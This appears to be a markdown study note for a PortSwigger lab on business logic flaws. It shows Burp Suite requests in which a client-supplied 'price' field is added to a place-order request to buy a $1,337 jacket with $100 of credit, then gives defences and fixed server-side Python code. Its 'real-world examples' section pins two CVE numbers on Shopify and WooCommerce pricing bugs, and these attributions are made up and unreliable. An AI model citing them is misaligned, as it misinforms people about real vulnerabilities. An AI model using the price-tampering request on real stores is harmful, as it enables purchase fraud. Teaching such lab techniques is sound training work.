


## Business Logic Vulnerabilities

### Introduction to Business Logic Vulnerabilities

Business logic vulnerabilities occur when an application's business rules are not properly enforced, allowing attackers to manipulate the system in unintended ways. These vulnerabilities often arise due to excessive trust in client-side controls, which can be easily bypassed by malicious users. In this section, we will explore a specific example of such a vulnerability and delve into the underlying concepts, mechanisms, and defenses.

### Example Scenario: Lightweight Leather Jacket

Consider an e-commerce application where a user wants to purchase a "Lightweight Leather Jacket." The jacket is priced at $1,337, but the user only has $100 in store credit. The goal is to exploit a logic flaw to purchase the jacket for a price lower than the listed amount.

#### Initial Setup

1. **Login to the Account**:
    - Username: `user`
    - Password: `Peter`



2. **Navigate to Home Page**:
    - Check the available store credit: `$100`.
    - Identify the item to purchase: "Lightweight Leather Jacket" priced at `$1,337`.



### Analyzing Requests with Burp Suite

To exploit the vulnerability, we will use Burp Suite to intercept and modify HTTP requests.

#### Step 1: Add Item to Cart

When the user clicks "Add to Cart," a POST request is sent to the server.

```http
POST /add-to-cart HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

item_id=123&quantity=1
```

#### Step 2: Place Order

When the user attempts to place the order, another POST request is sent to the server.

```http
POST /place-order HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

cart_items=[{"item_id":123,"quantity":1}]
```

The server responds with an error indicating insufficient store credit:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json

{
    "error": "Not enough store credit for this purchase."
}
```

### Exploiting the Logic Flaw

The vulnerability lies in the fact that the server does not properly validate the price of the item before processing the payment. By manipulating the request, an attacker can set the price to a lower value.

#### Modified Request

Modify the `cart_items` array to include a custom price field:

```http
POST /place-order HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

cart_items=[{"item_id":123,"quantity":1,"price":100}]
```

This modified request allows the user to purchase the jacket for $100 instead of $1,337.

### Real-World Examples

#### CVE-2021-3129: Shopify Pricing Manipulation

In 2021, a vulnerability was discovered in Shopify's checkout process, allowing attackers to manipulate product prices. This vulnerability was similar to the one described above, where the server did not properly validate the price before processing the transaction.

#### CVE-2022-22965: WooCommerce Price Override

Another example is a vulnerability found in WooCommerce, a popular e-commerce plugin for WordPress. Attackers could override product prices by manipulating the request parameters, leading to unauthorized discounts.

### How to Prevent / Defend

#### Detection

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual patterns in pricing and transactions.
2. **Automated Scanning Tools**: Use tools like Burp Suite, OWASP ZAP, and commercial scanners to identify potential business logic vulnerabilities.

#### Prevention

1. **Server-Side Validation**: Ensure that all business logic rules are enforced on the server side. Do not rely solely on client-side controls.
2. **Input Validation**: Validate all input fields, including prices, quantities, and other critical parameters.
3. **Secure Coding Practices**: Follow secure coding practices to prevent common vulnerabilities such as SQL injection, cross-site scripting (XSS), and others.

#### Secure Code Fix

**Vulnerable Code**:

```python
def process_order(cart_items):
    total_price = 0
    for item in cart_items:
        total_price += item['quantity'] * item['price']
    if total_price > get_store_credit():
        return "Not enough store credit for this purchase."
    else:
        # Process payment
        return "Order placed successfully."
```

**Fixed Code**:

```python
def process_order(cart_items):
    total_price = 0
    for item in cart_items:
        # Fetch the actual price from the database
        actual_price = get_item_price(item['item_id'])
        total_price += item['quantity'] * actual_price
    if total_price > get_store_credit():
        return "Not enough store credit for this purchase."
    else:
        # Process payment
        return "Order placed successfully."
```

### Conclusion

Business logic vulnerabilities are a significant threat to web applications, particularly when developers trust client-side controls. By understanding the underlying mechanisms and implementing robust defenses, organizations can protect their systems from such attacks.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs covering different types of business logic vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web app for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: Provides a range of vulnerabilities, including business logic flaws.

These labs provide a safe environment to learn and practice identifying and mitigating business logic vulnerabilities.

---
<!-- nav -->
[[02-Business Logic Vulnerabilities Excessive Trust in Client-Side Controls|Business Logic Vulnerabilities Excessive Trust in Client-Side Controls]] | [[Web Security (PortSwigger)/15-Business Logic Vulnerabilities/02-Lab 1 Excessive trust in client side controls/00-Overview|Overview]] | [[Web Security (PortSwigger)/15-Business Logic Vulnerabilities/02-Lab 1 Excessive trust in client side controls/04-Practice Questions & Answers|Practice Questions & Answers]]
